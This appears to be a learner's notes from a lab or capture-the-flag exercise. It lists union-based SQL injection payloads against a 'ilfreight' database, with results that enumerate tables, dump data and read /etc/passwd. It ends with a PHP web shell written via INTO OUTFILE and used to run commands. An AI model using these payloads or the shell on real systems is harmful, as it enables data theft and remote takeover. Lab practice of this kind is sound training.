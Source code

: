 1' union select 1,version(),database(),TABLE_NAME,TABLE_SCHEMA from information_schema.tables where table_schema='ilfreight’;-- -
1' union select 1,version(),database(),table_name,Table_schema from information_schema.tables where table_schema='ilfreight';-- -

result : users / payment

1' union select 1,version(),database(),column_name,4 from information_schema.columns where table_name=‘users’;— -

Result -> unknow column

' union select 1,version(), database(), column_name, 4 from information_schema.columns where table_name='payment’;--  -

result -> id name month amount tax 

1' union select 1,current_user(),user(),user from ilfreight.user;-- -

result: ilfreight not exist 

1' union select 1,name,month,amount,tax from ilfreight.payment;— -

Result: Adam (useless)
	    james (useless)


1' union select 1,user(),current_user(),4,5 from ilfreight.user;— -

Result: root@localhost

1' union select 1,grantee,privilege_type,4,5 from information_schema.user_privileges where grantee="'root'@'localhost'";— -

result ： 權限列表

1' union select 1,load_file(“/etc/passwd"),3,4,5;— -

Result: path列表

next: 上傳shell - > `'<?php system($_request[0])?>' `into outfile `'<path>'`;-- -

next: go shell的路徑 'shell.php?0=id;ls;cd ..;ls;'

get flag ！！！！！！！
